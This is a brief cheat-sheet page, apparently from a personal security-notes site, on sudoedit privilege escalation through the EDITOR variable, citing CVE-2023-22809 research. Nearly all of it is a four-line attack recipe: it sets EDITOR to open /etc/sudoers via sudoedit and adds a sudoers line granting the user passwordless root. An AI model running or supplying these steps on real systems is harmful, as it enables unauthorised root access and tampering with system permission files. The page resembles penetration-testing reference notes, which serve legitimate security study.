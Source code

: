 ```yaml
---
title: Sudoedit Privilege Escalation
description: A reference page in my new Starlight docs site.
---
```


#### TL;DR

```
sudo -l
export EDITOR="vim -- /etc/sudoers"
sudoedit /tmp/vulnerable.txt
user ALL=(ALL:ALL) NOPASSWD:ALL
```

#### References

- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/
- https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf 
